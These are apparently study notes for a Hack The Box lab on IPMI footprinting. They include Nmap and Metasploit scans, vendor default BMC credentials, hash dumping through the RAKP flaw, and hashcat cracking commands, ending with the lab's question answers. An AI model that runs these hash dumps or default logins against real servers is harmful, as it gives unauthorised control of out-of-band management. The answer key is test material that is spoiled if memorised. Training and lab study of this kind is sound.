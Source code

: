 
## Basics

- IPMI is a standardized, hardware-based host management system operating independently of BIOS/CPU/OS.
    
- Used to manage/monitor systems even when powered off or unresponsive; supports remote upgrades.
    
- Typical uses:
    
    - Before OS boot to modify BIOS
        
    - When host is powered down
        
    - After a system failure
        
- Monitors temperature, voltage, fans, power supplies; supports inventory queries, hardware logs, SNMP alerts.
    
- Requires power source and LAN; supported by many vendors; IPMI 2.0 supports serial over LAN.
    
- Components: BMC, ICMB, IPMB, IPMI Memory, Communications Interfaces.
    

---

## Footprinting the Service

### Nmap

```bash
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

Example output:

```
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
```

### Metasploit

```bash
use auxiliary/scanner/ipmi/ipmi_version 
set rhosts 10.129.42.195
run
```

Example output:

```
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0)
```

Default credentials (examples):

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string (numbers and uppercase letters)|
|Supermicro IPMI|ADMIN|ADMIN|

---

## Hashcat

- IPMI 2.0 RAKP flaw: server sends salted SHA1/MD5 of user’s password pre-auth.
    
- Crack with Hashcat mode 7300.
    
- HP iLO factory default mask example:
    
    ```
    hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
    ```
    

---

## Metasploit – Dumping Password

```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts 10.129.42.195
show options
run
```

Example output:

```
[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:...:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
```

---

## HTB – Guide

### Question 1

- Module: `auxiliary/scanner/ipmi/ipmi_dumphashes`
    

```bash
msfconsole -q
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS STMIP
run
```

Example output shows username `admin`.

### Question 2

- Crack with Hashcat mode 7300 and `rockyou.txt`:
    

```bash
hashcat -m 7300 -w 3 -O "93c8...:3541..." /usr/share/wordlists/rockyou.txt
```

Example output reveals plaintext password `trinity`.